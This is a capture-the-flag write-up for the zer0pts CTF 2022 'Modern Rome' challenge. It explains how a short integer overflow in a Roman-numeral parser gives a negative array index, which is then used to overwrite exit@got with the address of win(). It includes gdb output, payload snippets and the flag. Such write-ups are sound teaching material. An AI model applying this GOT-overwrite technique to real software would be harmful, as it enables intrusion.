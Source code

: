 # zer0pts CTF 2022 - Modern Rome

Original challenge link: https://2022.ctf.zer0pts.com/tasks/

You can also download chall file in my repo: [modern-rome.zip](modern-rome.zip)

Download the zip, then extract it and let's start!

# 1. Find bug

First, we will use `file` and `checksec` to get the basic information:

```bash
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=56e9bd22c71b88be6d1f336fcfcc733584d27d8c, for GNU/Linux 3.2.0, not stripped

$ checksec chall
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can see that `Canary found` so buffer overflow cannot be done. But we can also see that `Partial RELRO`, which means we can overwrite @got if we have the ability.

Next, we will read the source code to get the flow and we know that the function readroman() is absolutely interesting:

```c
short readroman(){
    short res = 0;
    std::string s;

    std::cin >> s;
    auto it = s.crbegin();

    int b = 1;
    for (auto c: "IXCM") {
        int cnt = 0;
        while (cnt < 9 && it != s.crend() && *it == c) {
            it++;
            cnt++;
        }
        res += b * cnt;
        b *= 10;
    }

    return res;
}
```

First, we input to the string `s` and then, it will be convert to a vector of string using `crbegin()`, which you can read [here](https://www.cplusplus.com/reference/vector/vector/crbegin/). One thing to notice is that `crbegin()` will take the string from the end and `crend()` will take the string from the begining.

Then, it will compare our string from bottom to up with the character of `c` from I, X, C, M and null byte. What? Null byte? Yeah, the for loop will loop 5 times with 5 characters is I, X, C, M and `\x00`.

You can modify the code to print the character `c` one by one like this:

```c
short readroman(){
    ...
    for (auto c: "IXCM") {
    	// Add this
    	int a = c;    // Change char to int
    	std::cout << a << std::endl;
        
        int cnt = 0;
        ...
    }
    ...
```

And we compile with `g++`, then run again and we get this:

![try-after-modified.png](images/try-after-modified.png)

So the program will compare if our input is equal to `c`, the while loop will be execute. And if we input full of 9 I or X or C or M or `\x00`, we will get the maximum number is `99999`.

We know that `res` in readroman() is defined as `short`, and the range data is just from -32768 to 32767, which you can found in [this article](https://docs.microsoft.com/vi-vn/cpp/cpp/data-type-ranges?view=msvc-160). And with the ability to sum up to `99999`, which add to `res` will cause **integer overflow**

# 2. Brainstorming

With the ability to make a negative index, we can change data before `buf`, particularly is exit@got because that's the only place we can overwrite. 

Summary:

1. Make `buf[ind]` point to exit@got
2. Change exit@got

# 3. Exploit

### Stage 1: Make `buf[ind]` point to exit@got

Remember that our input string will be check from bottom to up so our payload will look like this:

```python
payload = b'\x00'*a
payload += b'M'*b
payload += b'C'*c
payload += b'X'*d
payload += b'I'*e
```

With a, b, c, d, e we will use gdb and check until we find the correct number. After a while trying, we got this update payload for `ind`:

```python
payload = b'\x00'*6
payload += b'M'*5
payload += b'C'*1
payload += b'X'*6
payload += b'I'*4
```

Send that payload and we pause the program to attach gdb, then set breakpoint to check the address:

```bash
gef➤  disas main
   ...
   0x0000000000401562 <+205>:	lea    rdx,[rax+rax*1]
   0x0000000000401566 <+209>:	lea    rax,[rip+0x2dd3]        # 0x404340 <buf>
   0x000000000040156d <+216>:	mov    WORD PTR [rdx+rax*1],cx
   0x0000000000401571 <+220>:	mov    edi,0x0
   0x0000000000401576 <+225>:	call   0x4011a0 <exit@plt>
End of assembler dump.

gef➤  b*0x000000000040156d
Breakpoint 1 at 0x40156d
```

And type `c` to continue running to breakpoint, then check the address:

![check-exit_got-gdb.png](images/check-exit_got-gdb.png)

So we know it's correct. Let's move on!

### Stage 2: Change exit@got

Notice the breakpoint above, it move `cx` to the address, which we made it point to exit@got in the stage 1. And `cx` will just move 2 bytes to the value with that address so we just need to take 2 last bytes of win() function:

![get-win-address.png](images/get-win-address.png)

So we will need to write `4854` to last 2 bytes of exit@got and we have this second payload:

```python
payload = b'M'*4      # 4000
payload += b'C'*8     #  800
payload += b'X'*5     #   50
payload += b'I'*4     #    4
```

Just pass it to `val` and we get the shell. Full code: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `zer0pts{R0me_w1ll_3x1st_a5_1on9_4s_th3_Col1s3um_d0es}`
